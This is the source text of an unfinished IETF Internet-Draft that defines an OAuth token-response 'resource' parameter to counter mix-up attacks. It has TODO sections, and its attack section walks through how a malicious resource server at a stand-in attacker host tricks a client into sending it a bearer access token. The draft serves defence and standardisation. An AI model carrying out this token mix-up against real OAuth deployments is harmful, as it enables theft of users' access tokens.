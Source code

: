 ```yaml
---
title: OAuth 2.0 Intended Resource Identification
abbrev: Intended Resource Identification
category: std

docname: draft-hanson-oauth-resource-token-resp-latest
submissiontype: IETF
number:
date:
consensus: true
v: 3
area: Security
workgroup: Web Authorization Protocol
keyword:
  - oauth
venue:
  group: Web Authorization Protocol
  type: Working Group
  mail: oauth@ietf.org
  github: jaredhanson/oauth-resource-token-resp

author:
  - name: Jared Hanson
    org: Keycard
    email: jared@keycard.ai

--- abstract

This document specifies a new parameter `resource` that is used to explicitly
include the resource identifier of the protected resource that the access token
in the token response is intended for.  This `resource` parameter serves as an
effective countermeasure to "mix-up attacks".

--- middle

# Introduction

In traditional OAuth deployments, there is typically a pre-known relationship
between authorization servers and the resource servers they protect.  Clients
that request access to protected resources are manually registered ahead of
time and understand the relationship issued access tokens and the protected
resources for which those tokens are intended.

As OAuth evolves to support more loosely-coupled deployments, clients are
dynamically discovering configuration using OAuth 2.0 Protected Resource Metadata
{{!RFC9728}} and OAuth 2.0 Authorization Server Metadata {{!RFC8414}} and
registering using OAuth 2.0 Dynamic Client Registration Protocol {{!RFC7591}}.

This document defines a new parameter in the token response called `resource`.
The `resource` parameter allows the authorization server to explicitly include
the identity of the protected resource(s) for which the access token is
intended.  The client can compare the value of the `resource` parameter to the
resource identifier of the protected resource (e.g., retrieved from its
metadata) it believes it is interacting with.  The `resource` parameter gives
the client certainty about the protected resource(s) for which the access token
is intended and enables it to send access tokens only to the intended
recipients.  Therefore, the implementation of the `resource` parameter serves as
an effective countermeasure to mix-up attacks.

# Response Parameter resource

In token responses to the client, an authorization server supporting this
specification MUST indicate the identity of the protected resource(s) for which
the access token is intended by including the `resource` parameter in the
response.

The `resource` parameter value is the resource identifier of the protected
resource(s) for which the access token is intended, as defined by [Section 2](https://datatracker.ietf.org/doc/html/rfc8707#name-resource-parameter)
of {{!RFC8707}}.  In the general
case, the `resource` parameter is an array of strings, each containing a
resource identifier.  In the special case when the access token is intended for
a single protected resource, the `resource` parameter MAY be a string.

## Example Token Response

The following example shows a token response from the authorizaiton server
where the access token is intended for the resource whose resource identifier is
`https://rs.example.com/`:

HTTP/1.1 200 OK
Content-Type: application/json;charset=UTF-8
Cache-Control: no-store
Pragma: no-cache

{
  "access_token":"2YotnFZFEjr1zCsicMWpAA",
  "token_type":"example",
  "expires_in":3600,
  "refresh_token":"tGzv3JOkF0XG5Qx2TlKWIA",
  "resource":"https://rs.example.com/"
}

## Providing the Resource Identifier

Resource servers supporting this specification MUST provide their resource
identifier to enable clients to validate the `resource` parameter effectively.
The recommended approach is [RFC9728](https://datatracker.ietf.org/doc/html/rfc9728).

TODO: Clarify this section.

## Validating the Resource Identifier

TODO: Add this section.

More precisely, clients that interact with resource servers
...
```


# Authorization Server Metadata

The following parameter for the authorization server metadata [RFC8414](https://datatracker.ietf.org/doc/html/rfc8414)
is introduced to signal the authorization server's support for this
specification:

`token_response_resource_parameter_supported`: Boolean parameter indicating
whether the authorization server provides the `resource` parameter in the token
response as defined in Section 2.  If omitted, the default value is false.

# Attack Goals


In this attack, an attacker tricks a client into sending an access token to the
attacker instead of the honest resource server.

# Attack Description

The access token mix-up attack works as follows:

1. The attacker sets up a malicious resource server (https://rs.attacker.example).

2. The malicious resource server publishes metadata indicating that a victim
   authorization server (https://as.victim.example) protects this resource server.
   For example:

   {
      "resource":
        "https://rs.attacker.example",
      "authorization_servers":
        ["https://as.victim.example"]
   }

3. The attacker tricks a legitimate client into connecting to the malicious
   resource server, which challenges the client to authorize using the
   dynamically discovered metadata.   For example:

   HTTP/1.1 401 Unauthorized
   WWW-Authenticate: Bearer resource_metadata=
     "https://rs.attacker.example/.well-known/oauth-protected-resource"

4. The legitimate client sends an authorization request to the victim authorization
   server

   GET /authorize?response_type=code
        &client_id=example-client
        &state=XzZaJlcwYew1u0QBrRv_Gw
        &redirect_uri=https%3A%2F%2Fclient.example.org%2Fcb
        &resource=https%3A%2F%2Frs.attacker.example HTTP/1.1
  Host: as.victim.example

5. The victim authorization server, which does not support resource indidicators,
   receives this request and processes it according to pre-defined set of scope
   for a victim protected resource (https://rs.victim.example).

6. The user consents to authorize the legitimate client access to the victim protected
   resource.

7. The victim authorization server issues an access token to the legitimate client,
   granting it access to the vicitim protected resource.  For example:

   HTTP/1.1 200 OK
   Content-Type: application/json

   {
     "access_token":"mF_9.B5f-4.1JqM",
     "token_type":"Bearer",
     "expires_in":3600,
     "refresh_token":"tGzv3JOkF0XG5Qx2TlKWIA"
   }

7. The legitimate client utilized the access token to make a request to the malicious
   resource server.  For example:

   GET / HTTP/1.1
   Host: rs.attacker.example
   Authorization: Bearer mF_9.B5f-4.1JqM

8. The malicious resource server is now in posession of an access token it can use
   to make authorized requests to the victim resource server.


// https://datatracker.ietf.org/doc/html/rfc9728#name-audience-restricted-access-
